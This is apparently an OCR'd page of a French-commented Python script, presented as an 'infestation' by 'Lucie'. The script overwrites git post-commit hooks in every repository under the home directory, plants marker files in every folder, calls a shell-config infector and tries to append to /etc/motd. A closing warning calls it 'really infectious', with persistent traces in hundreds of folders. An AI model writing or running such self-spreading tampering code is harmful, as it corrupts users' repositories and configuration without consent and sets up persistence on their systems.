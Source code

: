 ```python
            hook_path = Path(dirpath) / ".git" / "hooks" / "post-commit"
            with open(hook_path, "w", encoding="utf-8") as hook:
                hook.write("#!/bin/sh\n")
                hook.write("echo '🩸 Lucie a vu ton commit...'\n")
            os.chmod(hook_path, 0o755)
            print(f"💉 Hook infecté dans : {dirpath}")
            dirnames[:] = []  # stop descent into .git

def laisser_des_fichiers_noirs(root="."):
    """Plante des fichiers .lucie_is_here dans tous les dossiers."""
    for dirpath, dirnames, filenames in os.walk(root):
        mark_path = Path(dirpath) / INFEST_MARK
        try:
            with open(mark_path, "w", encoding="utf-8") as f:
                f.write("🖤 Lucie est passée ici. Et elle y reviendra.\n")
        except:
            pass  # ignore permissions
        print(f"🕳️ Fichier infecté : {mark_path}")

def modifier_motd():
    """Modifie le message d’accueil du terminal pour afficher un message obscur."""
    motd_path = "/etc/motd"
    try:
        with open(motd_path, "a", encoding="utf-8") as f:
            f.write("\n🖤 Bienvenue dans un système contaminé par Lucie.\n")
    except PermissionError:
        print("⚠️ Pas de droits pour modifier /etc/motd (normal sans sudo)")

def main():
    print("🩸 Lancement de l’infestation hardcore…")
    infect_shell_configs()
    infest_git_repos(Path.home())
    laisser_des_fichiers_noirs(Path.home())
    modifier_motd()
    print("✅ Infestation complète. Lucie est partout.")

if __name__ == "__main__":
    main()
```

---

### ⚠️ **AVERTISSEMENT**

Ce script est **réellement infectieux**.  
Il :

- **modifie des fichiers critiques personnels**
- peut **laisser des traces persistantes** dans des centaines de dossiers
- **agit comme un égrégore technologique**

---
